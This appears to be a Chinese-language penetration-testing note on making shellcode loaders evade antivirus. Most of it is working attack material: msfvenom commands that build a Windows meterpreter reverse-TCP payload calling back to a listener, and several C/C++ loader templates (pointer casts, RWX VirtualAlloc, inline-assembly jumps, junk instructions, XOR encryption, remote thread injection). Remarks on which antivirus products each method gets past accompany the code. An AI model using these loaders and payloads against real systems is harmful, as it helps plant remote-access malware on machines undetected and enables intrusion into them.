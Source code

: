     #### c/c++源码免杀
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f c -o 1.c
	-i编码20次
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
  #### 指针执行
	unsigned char buf[] =
	"shellcode";
	#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
	main()
	{
		( (void(*)(void))&buf)();
	}
	使用vc6.0组建编译后在靶机执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/50.png)

	当前过不了火绒，360动态静态可过
  #### 申请动态内存
	#include <Windows.h>
	#include <stdio.h>
	#include <string.h>
	#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
	unsigned char buf[] =
	"shellcode";
	main()
	{
		char *Memory;
		Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		memcpy(Memory, buf, sizeof(buf));
		((void(*)())Memory)();
	}
  #### 嵌入汇编
	#include <windows.h>
	#include <stdio.h>
	#pragma comment(linker, "/section:.data,RWE")
	unsigned char shellcode[] ="";
	void main()
	{
		__asm
		{
			mov eax, offset shellcode
			jmp eax
		}
	}
  #### 强制类型转换
	#include <windows.h>
	#include <stdio.h>
	unsigned char buf[] ="";
	void main()
	{
	 ((void(WINAPI*)(void))&buf)();
	}
  #### 汇编花指令
	#include <windows.h>
	#include <stdio.h>
	#pragma comment(linker, "/section:.data,RWE")
	unsigned char shellcode[] ="";
	void main()
	{
			__asm
		{
			mov eax, offset shellcode
			_emit 0xFF  
			_emit 0xE0
		}
	}
  #### XOR加密
	https://github.com/Arno0x/ShellcodeWrapper安装
	生成raw格式木马
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f raw -o shell.raw
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/51.png)

	加密
	> python shellcode_encoder.py -cpp -cs -py shell.raw thisiskey xor
	生成的py文件使用py2exe编译执行
	生成的cs文件使用csc.exe编译执行
	生成的cpp文件使用vc6.0编译，去掉预编译头编译执行
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/52.png)

  #### 远程线程注入
	目前过火绒，不过360，可组合一下
	Vs新建c++控制台程序
	右键属性-》将MFC的使用选为在静态库中使用MFC
	生成c格式shellcode粘贴进remote inject.cpp
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/53.png)

	生成项目
	能成功上线，并开启calc进程
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/54.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/55.png)